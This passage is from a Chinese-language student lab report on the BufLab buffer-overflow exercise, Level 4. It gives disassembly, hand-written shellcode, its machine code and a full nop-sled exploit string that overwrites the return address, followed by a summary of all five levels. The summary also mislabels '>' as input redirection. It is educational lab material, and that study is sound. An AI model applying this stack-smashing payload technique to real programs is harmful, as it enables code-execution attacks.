   0x08048ccf <+1>:		mov    %esp,%ebp
   0x08048cd1 <+3>:		push   %ebx
   0x08048cd2 <+4>:		sub    $0x24,%esp
   0x08048cd5 <+7>:		call   0x8048c18 <uniqueval>
   0x08048cda <+12>:	mov    %eax,-0xc(%ebp)
   0x08048cdd <+15>:	call   0x8049244 <getbufn>
   0x08048ce2 <+20>:	mov    %eax,%ebx							/* 调用getbufn后的下一条指令 */
   0x08048ce4 <+22>:	call   0x8048c18 <uniqueval>
   0x08048ce9 <+27>:	mov    -0xc(%ebp),%edx
   0x08048cec <+30>:	cmp    %edx,%eax
   0x08048cee <+32>:	je     0x8048d06 <testn+56>
   0x08048cf0 <+34>:	movl   $0x804a460,0x4(%esp)
   0x08048cf8 <+42>:	movl   $0x1,(%esp)
   0x08048cff <+49>:	call   0x8048990 <__printf_chk@plt>
   0x08048d04 <+54>:	jmp    0x8048d4c <testn+126>
   0x08048d06 <+56>:	cmp    0x804d104,%ebx
   0x08048d0c <+62>:	jne    0x8048d34 <testn+102>
   0x08048d0e <+64>:	mov    %ebx,0x8(%esp)
   0x08048d12 <+68>:	movl   $0x804a48c,0x4(%esp)
   0x08048d1a <+76>:	movl   $0x1,(%esp)
   0x08048d21 <+83>:	call   0x8048990 <__printf_chk@plt>
   0x08048d26 <+88>:	movl   $0x4,(%esp)
   0x08048d2d <+95>:	call   0x8049280 <validate>
   0x08048d32 <+100>:	jmp    0x8048d4c <testn+126>
   0x08048d34 <+102>:	mov    %ebx,0x8(%esp)
   0x08048d38 <+106>:	movl   $0x804a2a6,0x4(%esp)
   0x08048d40 <+114>:	movl   $0x1,(%esp)
   0x08048d47 <+121>:	call   0x8048990 <__printf_chk@plt>
   0x08048d4c <+126>:	add    $0x24,%esp
   0x08048d4f <+129>:	pop    %ebx
   0x08048d50 <+130>:	pop    %ebp
   0x08048d51 <+131>:	ret    
End of assembler dump.
```

所以编写的漏洞汇编代码为：

```assembly
mov 	0x804d104,%eax		/* set Cookie as the return value */
leal 	0x28(%esp),%ebp		/* restore any corrupted state */
push 	$0x08048ce2				/* push the correct return location on the stack */
ret											/* return to testn */
```

使用工具得到反汇编代码:

```assembly

level4.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 04 d1 04 08       	mov    0x804d104,%eax
   5:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   9:	68 e2 8c 04 08       	push   $0x8048ce2
   e:	c3                   	ret    
```

最终得到的机器码为：

`a1 04 d1 04 08 8d 6c 24 28 68 e2 8c 04 08 c3`

**编写漏洞字符串**

因为每次buf的首地址都不同，不能向level3一样把机器码从buf的首地址开始保存，观察每次buf的首地址，发现最大差值不超过`0x1f5`（509），再结合提示：利用nop sled，把机器码存放到buf的底部，从buf的首地址开始用`nop`的机器码`90`填充。`getbufn`返回后跳转到buf可能的最高地址（0x55683b28），往后执行，不断执行`nop`指令后一定会来到编写好的机器码。

查看getbufn中buf的地址：

```assembly
(gdb) disass getbufn
Dump of assembler code for function getbufn:
   0x08049244 <+0>:		push   %ebp
   0x08049245 <+1>:		mov    %esp,%ebp
   0x08049247 <+3>:		sub    $0x218,%esp
   0x0804924d <+9>:		lea    -0x208(%ebp),%eax
   0x08049253 <+15>:	mov    %eax,(%esp)
   0x08049256 <+18>:	call   0x8048c32 <Gets>
   0x0804925b <+23>:	mov    $0x1,%eax
   0x08049260 <+28>:	leave  
   0x08049261 <+29>:	ret    
End of assembler dump.
```

可以看到buf的首地址为%ebp - 0x208，所以漏洞字符串应有528字节，最后525 - 528是我们将要覆盖的地址，509 - 524是漏洞机器码。

最终的漏洞字符串为：

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 a1 
04 d1 04 08 8d 6c 24 28 68 e2 
8c 04 08 c3 28 3b 68 55
```

运行结果 

## 实验总结

### 实验中出现的问题

- 对一些命令行操作符不熟悉，如重定向操作符 < 和 >管道操作符|，通过阅读实验指导书和网上搜寻资料后了解到：> 是输入重定向操作符，它将文件作为下一个程序的输入， > 是标准输出重定向操作符。它将程序的输出重定向到文件而不是终端。｜是管道操作符，它将前一个命令的输出作为后一个命令的输入。

### 心得体会

本次实验与bomblab都有很高的趣味性，在buflab中每完成一级任务都能了解到利用缓冲区溢出攻击程序的简单方法：

- Level0：利用直接覆盖返回地址，在调用函数`getbuf`时返回`smoke`函数，而不是原来的`test`函数，初步认识缓冲区溢出攻击的原理。
- Level1：在Level0的基础上，传递用户cookie作为参数，需要结合汇编代码找到函数参数的地址。
- Level2：在前面的基础上，用实际的机器指令编写字符串去攻击程序，需要自己编写汇编代码段去实现操作：设置全局变量，再修改返回地址执行`bang`函数。。
- Level3：使程序执行我们设计的机器代码，但使程序返回到原始调用函数，且不破坏原是函数的栈空间，让攻击更隐蔽。
- Level4：Level3攻击方式相同，不同的是`testn`和`getbufn`的`%ebp`会不断变化，编写的汇编代码要更有稳定性，能保证每次攻击后不破坏`testn`的栈空间，了解到nop sleds。

BufLab很有意义，每完成一级任务都能学到新的利用缓冲区溢出攻击程序的方法，且其中还让程序执行自己编写的汇编代码，让我更熟悉机器执行函数的调用过程，且了解到一般利用缓冲区溢出攻击方法，才能在以后维护自己的程序并编写更安全可靠的代码。